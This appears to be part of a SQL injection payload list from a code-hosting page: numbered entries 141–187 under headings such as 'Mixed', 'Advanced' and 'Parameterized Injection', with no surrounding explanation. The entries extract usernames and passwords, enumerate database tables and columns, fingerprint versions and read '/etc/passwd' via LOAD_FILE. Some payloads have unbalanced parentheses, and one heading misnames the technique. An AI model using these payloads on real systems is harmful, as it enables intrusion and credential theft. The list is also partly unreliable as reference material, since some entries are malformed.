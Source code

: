### Mixed SQL Injection
141. `' UNION SELECT NULL, NULL, version()--`
142. `' OR (SELECT COUNT(*) FROM users) > 1--`
143. `' OR (SELECT 1 FROM dual WHERE 1=1)--`
144. `' OR EXISTS(SELECT 1 FROM users WHERE username='admin')--`
145. `' OR NOT EXISTS(SELECT 1 FROM users WHERE username='admin')--`
146. `' OR (SELECT 1 UNION SELECT 2)--`
147. `' OR 1 IN (SELECT user())--`
148. `' OR 1 IN (SELECT table_name FROM information_schema.tables)--`
149. `' OR 1 IN (SELECT column_name FROM information_schema.columns)--`
150. `' OR 1 IN (SELECT load_file('/etc/passwd'))--`

### Miscellaneous SQL Injection
151. `' OR (SELECT 1) UNION SELECT 1, 2--`
152. `' OR (SELECT 1) UNION ALL SELECT 1, 2--`
153. `' OR (SELECT user()) UNION SELECT 1, 2--`
154. `' OR (SELECT database()) UNION SELECT 1, 2--`
155. `' OR (SELECT table_name FROM information_schema.tables) UNION SELECT 1, 2--`
156. `' OR (SELECT column_name FROM information_schema.columns) UNION SELECT 1, 2--`
157. `' OR (SELECT COUNT(*) FROM users) UNION SELECT 1, 2--`
158. `' OR (SELECT LOAD_FILE('/etc/passwd')) UNION SELECT 1, 2--`
159. `' OR (SELECT @@version) UNION SELECT 1, 2--`
160. `' OR (SELECT IF(1=1, 'True', 'False')) UNION SELECT 1, 2--`

### Advanced Injection
161. `' OR 1=1 HAVING 1=1--`
162. `' OR 1=1 GROUP BY CONCAT(username, ':', password) HAVING 1=1--`
163. `' OR 1=1 ORDER BY 1--`
164. `' OR 1=1 ORDER BY 2--`
165. `' OR 1=1 ORDER BY 3--`
166. `' OR 1=1 ORDER BY 4--`
167. `' OR 1=1 ORDER BY 5--`
168. `' OR 1=1 ORDER BY 6--`
169. `' OR 1=1 ORDER BY 7--`
170. `' OR 1=1 ORDER BY 8--`
171. `' OR 1=1 LIMIT 1--`
172. `' OR 1=1 LIMIT 2--`
173. `' OR 1=1 LIMIT 3--`
174. `' OR 1=1 LIMIT 4--`
175. `' OR 1=1 LIMIT 5--`
176. `' OR 1=1 LIMIT 6--`
177. `' OR 1=1 LIMIT 7--`
178. `' OR 1=1 LIMIT 8--`
179. `' OR 1=1 LIMIT 9--`
180. `' OR 1=1 LIMIT 10--`

### Parameterized Injection
181. `' UNION SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT USER()), 0x3a, (SELECT DATABASE()))) AS result)--`
182. `' UNION ALL SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT @@version), 0x3a, (SELECT DATABASE()))) AS result)--`
183. `' UNION SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT TABLE_NAME FROM information_schema.tables), 0x3a, (SELECT COLUMN_NAME FROM information_schema.columns))) AS result)--`
184. `' UNION SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT LOAD_FILE('/etc/passwd')), 0x3a, (SELECT DATABASE()))) AS result)--`
185. `' UNION ALL SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT GROUP_CONCAT(user())), 0x3a, (SELECT DATABASE()))) AS result)--`
186. `' UNION SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT SUBSTRING(@@version, 1, 10)), 0x3a, (SELECT DATABASE()))) AS result)--`
187. `' UNION ALL SELECT * FROM (SELECT COUNT(*), CONCAT((SELECT GROUP_CONCAT(table_name)), 0x3a, (SELECT DATABASE()))) AS result)--`